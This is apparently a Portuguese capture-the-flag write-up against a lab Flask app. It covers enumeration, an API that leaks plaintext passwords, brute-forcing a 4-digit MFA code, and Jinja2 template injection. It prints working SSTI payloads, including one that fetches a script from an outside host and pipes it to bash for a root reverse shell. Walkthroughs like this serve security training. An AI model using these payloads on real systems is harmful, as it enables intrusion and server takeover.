Aplicação Flask (Werkzeug) com registro público expõe endpoint de API que vaza credenciais e roles de todos os usuários. MFA de 4 dígitos bypassado via brute force. Acesso administrativo revela SSTI no envio de mensagens — explorado para RCE e reverse shell como root.
bash$ enumport 10.0.26.157
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
80/tcp open http Werkzeug httpd 3.1.5 (Python 3.12.3)
| http-title: Hack Smarter Portal
|_Requested resource was /login
|_http-server-header: Werkzeug/3.1.5 Python/3.12.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.50 seconds
Referência do script: github.com/fstringuetta/enumport
bash$ echo '10.0.26.157 verbose.hs' | sudo tee -a /etc/hosts
Ao acessar a porta 80, somos redirecionados para /login. A aplicação permite registro público sem restrições.

bash$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt \
-u http://verbose.hs/FUZZ -c
login [Status: 200]
register [Status: 200]
profile [Status: 302]
messages [Status: 302]
reset-password [Status: 200]
mfa [Status: 302]

Realizamos o cadastro e acessamos a aplicação para análise das funcionalidades disponíveis.

Analisando as requisições feitas pela aplicação, identificamos o endpoint /api/users/all que retorna todos os usuários cadastrados, incluindo roles e senhas em texto claro.

Endpoint acessível por qualquer usuário autenticado retorna senhas e roles de todos os usuários — incluindo o admin.
admin : YouWontGetThisPasswordYouNoobLOL123
Ao tentar autenticar com as credenciais do admin, a aplicação solicita um código MFA. O mecanismo usa apenas 4 dígitos — espaço de 10.000 possibilidades, sem rate-limiting.

Com apenas 10.000 combinações possíveis (0000–9999) e sem bloqueio por tentativas, o código é trivialmente bypassável via brute force com Burp Intruder ou ffuf.
Capturamos a requisição de verificação do MFA no Burp Suite e automatizamos as tentativas iterando de 0000 a 9999:


Código válido identificado. Acesso ao dashboard administrativo obtido.

Obtida no menu Admin Panel após acesso com credenciais administrativas
Analisando as funcionalidades disponíveis no painel admin, identificamos a função de envio de mensagens entre usuários. O endpoint POST /messages no parâmetro content é vulnerável a SSTI.

Referência: HackTricks — SSTI
Payload Jinja2 para executar o comando id no servidor:
payload ssti — jinja2{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

A resposta retornou a saída do comando id — execução remota de código via Jinja2 SSTI confirmada.
Com RCE confirmado, criamos o payload de reverse shell via reverse-shell.sh e o servimos via Python HTTP server. Em seguida, injetamos via SSTI para download e execução:
payload ssti — reverse shell{{request.application.__globals__.__builtins__.__import__('os').popen('curl+10.200.50.96/shell|bash').read()}}


Obtida no diretório do usuário root após reverse shell via SSTI